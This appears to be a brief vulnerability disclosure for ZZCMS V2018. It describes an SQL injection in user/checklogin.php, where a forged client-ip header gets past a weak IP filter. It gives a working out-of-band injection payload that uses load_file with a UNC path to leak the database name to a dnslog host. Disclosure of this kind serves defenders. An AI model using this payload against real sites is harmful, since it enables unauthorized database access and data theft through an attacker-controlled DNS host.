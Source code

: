 ZZCMS V2018  SQL Injection

code: 
user\checklogin.php

![image](https://github.com/P0rZ9/ZZCMS/blob/master/1.jpg)

Follow up this function：getip()

![image](https://github.com/P0rZ9/ZZCMS/blob/master/2.jpg)

check_isip is a filter function,Follow up:

![image](https://github.com/P0rZ9/ZZCMS/blob/master/3.jpg)

This is just a simple filter. It has nothing to do with it.So,We can forge IP to inject.

show:
At the time of landing,In HTTP head add this： client-ip: 122.122.122.122' and ((select load_file(concat('\\',(select database()),'.xxxx.ceye.io\abc'))))#

You can see that you have successfully obtained the Database name in dnslog platform.
![image](https://github.com/P0rZ9/ZZCMS/blob/master/4.jpg)
